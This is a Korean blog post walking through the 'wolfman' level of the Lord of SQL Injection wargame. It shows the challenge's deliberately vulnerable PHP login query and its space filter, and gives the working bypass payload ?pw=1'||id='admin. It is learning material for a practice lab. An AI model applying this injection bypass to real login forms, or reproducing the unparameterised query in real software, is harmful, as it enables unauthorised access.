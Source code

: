 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - wolfman 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 첫 줄의 마지막 문제인 `wolfman` 문제이다.  

이번에는 `Blind SQL Injection`이 아니다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw=''
-------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

첨엔 이 전에 나왔던 문제랑 뭐가 다른건가 했는데 이제보니 `공백`에 대한 필터링이 추가되어 있다.  

당연한 얘기지만 이 경우 이 전 문제들을 풀었던 것 처럼 `1' or id='admin`을 사용할 수 없다.  

그래서 이번에는 `or`이라는 문자열 대신에 `||`을 사용했다.  

`or`을 사용 할 경우에는 `or id='admin` 처럼 무조건 공백이 들어가야 하지만, `||`는 공백 없이 `||id='admin`을 해도 잘 동작하기 때문이다.  

문제를 풀기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1'||id='admin
```

역시 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw='1'||id='admin'
-----------------------------------------------------------------------------------------------------

Hello admin
WOLFMAN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

`WOLFMAN Clear!!`
